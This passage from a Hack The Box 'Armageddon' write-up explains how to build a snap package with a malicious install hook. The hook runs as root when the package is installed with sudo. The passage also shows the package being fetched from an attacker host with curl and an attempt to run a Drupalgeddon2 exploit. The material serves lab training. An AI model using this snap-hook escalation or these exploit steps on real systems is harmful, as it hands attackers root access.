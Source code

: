 2. `mkdir -p meta/hooks` is going to make 2 directories at once. `meta` is the parent directory, and `hooks` is the child directory inside it.

3. `printf` will print `'#!/bin/sh\n%s; false' "$COMMAND"` and redirect the output to a file called `install` inside the `hooks` directory. The `install` file is a bash script, so when the snap package gets installed, it will run the hook and read us the root flag.

   ```bash
   [tyco㉿4YE: ~/htb/armageddon/snap]$ cat meta/hooks/install     
   
   #!/bin/sh
   cat /root/root.txt; false
   ```

4. `chmod +x meta/hooks/install` will make the script world executable. When the hook is called, the executable bit (the `x` in `-rwxr-xr-x`) will allow it to run the script.

   ```sh
   -rwxr-xr-x root/root                35 2021-12-29 11:42 squashfs-root/meta/hooks/install
   ```

5. `fpm -n xxxx -s dir -t snap -a all meta` will package everything up into a snap package.

   1. `-n` : the name to give to the package
   2. `-s` : the package type to use as input (gem, rpm, python, etc)
   3. `-t` : the type of package you want to create (deb, rpm, solaris, etc)
   4. `-a` : the architecture name. Usually matches `uname -m`.

Now all there is to do is to transfer the snap package over to the box, and install it.

```sh
[brucetherealadmin@armageddon ~]$ curl http://10.10.14.10:8000/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  24718      0 --:--:-- --:--:-- --:--:-- 24824

[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": [REDACTED])
```

# revisiting the right way to do it

## dreadlocked/Drupalgeddon2

At first, I thought it did not work since the ruby file errored out, so that is why I moved on to the Python script.

```sh
[tyco㉿4YE: ~/htb/armageddon/Drupalgeddon2]$ ./drupalgeddon2.rb http://10.10.10.233

Traceback (most recent call last):
        2: from ./drupalgeddon2.rb:16:in `<main>'
        1: from /usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb:85:in `require'
/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb:85:in `require': cannot load such file -- highline/import (LoadError)
```
